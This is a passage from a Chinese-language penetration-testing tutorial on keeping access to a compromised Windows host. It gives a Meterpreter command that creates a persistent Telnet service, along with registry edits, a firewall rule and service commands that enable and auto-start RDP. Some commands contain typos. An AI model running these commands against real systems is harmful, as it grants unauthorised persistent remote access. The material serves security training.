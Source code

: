     ```

创建新用户帐户后，退出 Windows 命令行。

要启用 Telnet，请从`meterpreter`提示符运行以下命令：

```
run gettelnet -e

```

上一个命令的执行如以下屏幕截图所示：

![Remotely enabling the Telnet service](graphics/3121OS_06_01.jpg)

上一个屏幕截图中显示的脚本在受损系统上创建了一个持久的 Telnet 服务。要访问它，请使用 Telnet 协议连接到系统的 IP 地址，并提供用于创建帐户的用户名和密码，如以下屏幕截图所示：

![Remotely enabling the Telnet service](graphics/3121OS_06_02.jpg)

Telnet 服务将持续存在，直到被删除。不幸的是，使用 Telnet 有一些限制：它很容易被检测到（特别是因为凭证是以明文形式传输的），并且它只能在命令行模式下工作。

但是，如果需要 GUI 来访问受损系统上的某些应用程序，该怎么办？

## 远程启用 Windows 终端服务

确保远程访问的最可靠的技术之一是持续启用 Windows 终端服务，也称为远程桌面协议（**RDP**）。为此，您必须具有管理员权限并了解目标操作系统的版本。

例如，如果目标是 Windows 7，则使用`meterpreter`获取目标上的交互式命令 shell，然后输入以下命令来更改注册表：

```
C:\ reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
C:\reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f 

```

要确保 RDP 将通过客户端防火墙，请使用以下命令添加规则：

```
C:\ netshadvfirewall firewall set rule group="remote desktop"new enable=Yes

```

现在，我们可以使用以下命令启动 RDP 服务：

```
C:\net start Termservice

```

启动 RDP 的变化尚未持续；每次启动计算机时，使用以下命令启动 RDP：

```
C:\sc configTermService start= auto

```

启用 RDP 的过程并不太复杂，但应该编写脚本以减少出错的可能性，尤其是在使用系统注册表时。幸运的是，`meterpreter`框架使用`GETGUI`脚本自动启用 RDP 服务。
